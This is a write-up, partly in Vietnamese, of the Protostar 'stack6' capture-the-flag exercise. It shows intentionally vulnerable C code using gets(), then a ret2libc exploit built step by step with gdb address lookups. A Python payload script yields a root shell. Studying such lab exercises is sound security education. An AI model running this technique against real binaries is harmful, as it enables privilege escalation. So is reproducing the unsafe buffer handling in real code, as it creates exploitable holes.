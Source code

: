 # STACK SIX

## About

Stack6 looks at what happens when you have restrictions on the return address.

This level can be done in a couple of ways, such as finding the duplicate of the payload ( objdump -s will help with this), or ret2libc , or even return orientated programming.

It is strongly suggested you experiment with multiple ways of getting your code to execute here.

This level is at /opt/protostar/bin/stack6

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

## Solutions

`STACK SIX` muốn chúng ta xem xét về cách vượt qua giới hạn khi mà địa chỉ trả về bị giới hạn. Cụ thể hơn là cách khai thác ret2libc.

Đoạn code sau:

```
  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }
```

if((ret & 0xbf000000) == 0xbf000000)

```
Giả sử ret = 0xbf777777
	     ret & 0xbf000000

	     0xbf777777 
           & 0xbf000000
	     __________
             0xbf000000 <-- luôn bằng 0xbf000000
```

Đoạn code này có khả năng chặn mọi địa chỉ trả về mà ta cố ghi đè vào EIP (tất cả bị đưa về `0xbf000000`) nếu như địa chỉ đó nằm trong khoảng từ `0xbf000000` đến `0xbfffffff`.

```
root@protostar:/opt/protostar/bin# gdb -q ./stack6
Reading symbols from /opt/protostar/bin/stack6...done.
(gdb) start
Temporary breakpoint 1 at 0x8048500: file stack6/stack6.c, line 27.
Starting program: /opt/protostar/bin/stack6

Temporary breakpoint 1, main (argc=1, argv=0xbffffd54) at stack6/stack6.c:27
27      stack6/stack6.c: No such file or directory.
        in stack6/stack6.c
(gdb) info proc map
process 1984
cmdline = '/opt/protostar/bin/stack6'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/stack6'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack6
         0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack6
        0xb7e96000 0xb7e97000     0x1000          0
        0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
        0xb7fd9000 0xb7fdc000     0x3000          0
        0xb7fe0000 0xb7fe2000     0x2000          0
        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
        0xbffeb000 0xc0000000    0x15000          0           [stack]
(gdb)
```

Đoạn địa chỉ từ `0xbf000000` đến `0xbfffffff` là stack -> không thể ghi đè shellcode lên stack rồi return lại để thực thi shellcode như `STACK FIVE`.

Thử thách này để có thể thực thi được shell ta sẽ sử dụng phương pháp ret2libc.
Đầu tiên là tìm lượng padding cần thiết để flow được vào EIP.

```
(gdb) c
Continuing.
input path please: AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPUUUURRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
got path AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPUUUURRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()       <-- 'UUUU'    [80 ký tự][EIP]
(gdb)
```

Sau đó là tìm địa chỉ của system() và exit() và địa chỉ của chuỗi `/bin/sh`:

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>
(gdb) find 0xb7e97000, 0xb7fd9000, "/bin/sh"
0xb7fba23f
1 pattern found.
(gdb) x/s 0xb7fba23f
0xb7fba23f:      "KIND in __gen_tempname\""
(gdb)
```

Địa chỉ của chuỗi `/bin/sh` ta tìm được khi kiểm tra lại không chứa chuỗi ta cần tìm.

Vì vậy ta sẽ dùng cách khác để tìm `/bin/sh`:

```
root@protostar:/opt/protostar/bin# strings -tx /lib/libc-2.11.2.so | grep /bin/sh
 11f3bf /bin/sh             <-- offset của /bin/sh so với địa chỉ bắt đầu của libc
 
 Địa chỉ của '/bin/sh' = Địa chỉ bắt đầu libc + 0x11f3bf
 0xb7fb63bf = 0xb7e97000 + 0x11f3bf
```

Payload của chúng ta bây giờ là:

`payload = "A" * 80 + addr_system + addr_exit + addr_shellcode`

File exp.py.

```
import struct
pd = "A" * 80
sysadd = struct.pack("I", 0xb7ecffb0)
exitadd = struct.pack("I", 0xb7ec60c0)
binadd = struct.pack("I", 0xb7fb63bf)
payload = pd + sysadd + exitadd + binadd
print payload
```

Done!

```
root@protostar:/opt/protostar/bin$ (python exp.py; cat) | ./stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`췿c
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
ls
final0	format0  format3  heap1  net0  net3    stack1  stack4  stack7
final1	format1  format4  heap2  net1  net4    stack2  stack5
final2	format2  heap0	  heap3  net2  stack0  stack3  stack6
```

## Documents

<https://itandsecuritystuffs.wordpress.com/2014/03/18/understanding-buffer-overflows-attacks-part-1/>

<https://www.coengoedegebure.com/buffer-overflow-attacks-explained/>

<https://en.wikipedia.org/wiki/Endianness>

<https://bufferoverflows.net/ret2libc-exploitation-example/>
